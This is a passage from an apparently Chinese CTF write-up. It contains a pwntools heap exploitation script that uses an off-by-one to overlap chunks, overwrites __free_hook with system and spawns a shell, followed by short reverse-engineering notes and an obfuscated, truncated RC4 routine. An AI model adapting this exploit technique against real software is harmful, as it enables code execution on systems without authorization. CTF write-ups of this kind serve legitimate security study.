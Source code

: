```PYTHON

def show(idx):
    p.sendlineafter("Code:","3")
    p.sendlineafter("ID:",str(idx))

def free(idx):
    p.sendlineafter("Code:","2")
    p.sendlineafter("ID:",str(idx))

def edit(idx,msg):
    p.sendlineafter("Code:","4")
    p.sendlineafter("Index:",str(idx))
    p.sendafter("Msg: ",msg)

add(0,'1','1\n')
add(1,'2','2\n')
add(2,p64(0x21)*2,(p64(0x21)*2)*0xe+'\n')
add(3,p64(0x21)*2,(p64(0x21)*2)*0xe+'\n')
free(0)
add(0,'1','A'*0xe8+'\xf1')
free(2)
free(1)
free_hook = libc.sym['__free_hook']
success(hex(free_hook))
system = libc.sym['system']
add(4,'3','/bin/sh'.ljust(0x20,'\x00')+p64(0)+p64(0xf1)+p64(free_hook)*3+'\n')
add(5,'/bin/sh\x00','/bin/sh\x00\n')
add(6,'123','123\n')
edit(6,p64(system)+'\n')
free(5)

p.interactive()
```



## REVERSE

### mips

走迷宫就可以了



### pypy

[![r6j4PK.md.jpg](https://s3.ax1x.com/2020/12/23/r6j4PK.md.jpg)](https://imgchr.com/i/r6j4PK)

这里打印就可以看到反编译的源码了



```python
DEFAULT_KEY = 'Yó\x02Ã%\x9a\x820\x0b»%\x7f~;ÒÜ'

def rc4(O0O0O0000O0OOOO0O, key=DEFAULT_KEY, skip=1024):
    O00OOOOOOO00OO00O = 0
    OO0OOOO0000OO00OO = bytearray([OO00OOOO0OOOOO00O for OO00OOOO0OOOOO00O in range(256)])
    O00OOOOOOO00OO00O = 0
    for OOOO000OOO00O000O in range(256):
        O00OOOOOOO00OO00O = (O00OOOOOOO00OO00O + OO0OOOO0000OO00OO[OOOO000OOO00O000O] + ord(key[(OOOO000OOO00O000O % len(key))])) % 256
        OO000O0O0OOOOO0OO = OO0OOOO0000OO00OO[OOOO000OOO00O000O]
        O000O0OO00O00000O = OO0OOOO0000OO00OO[O00OOOOOOO00OO00O]
        OO0OOOO0000OO00OO[OOOO000OOO00O000O] = OO0OOOO0000OO00OO[O00OOOOOOO00OO00O]
        OO0OOOO0000OO00OO[O00OOOOOOO00OO00O] = OO000O0O0OOOOO0OO
```